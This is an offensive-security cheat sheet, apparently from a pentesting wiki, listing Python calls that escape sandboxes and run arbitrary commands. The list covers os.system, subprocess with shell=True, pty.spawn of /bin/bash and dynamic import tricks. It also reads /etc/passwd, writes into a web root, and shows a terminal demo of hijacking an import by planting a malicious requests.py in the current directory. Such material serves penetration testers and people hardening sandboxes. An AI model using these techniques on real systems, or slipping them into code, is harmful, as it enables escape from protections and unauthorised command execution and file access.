# Bypass python sandboxes
These are some tricks to bypass python sandbox protections and execute arbitrary commands.
### Command Execution Libraries
```
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
Remember that the open and read functions can be useful to read files inside the python sandbox and to write some code that you could execute to bypass the sandbox.
Python try to load libraries from the current directory first (the following command will print where is python loading modules from): python3 -c 'import sys; print(sys.path)'
```
developer@updown:/home/developer/dev$ cat requests.py 
import os

os.system("echo 'Hello, I am here! '")
developer@updown:/home/developer/dev$ python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
Hello, I am here!
```
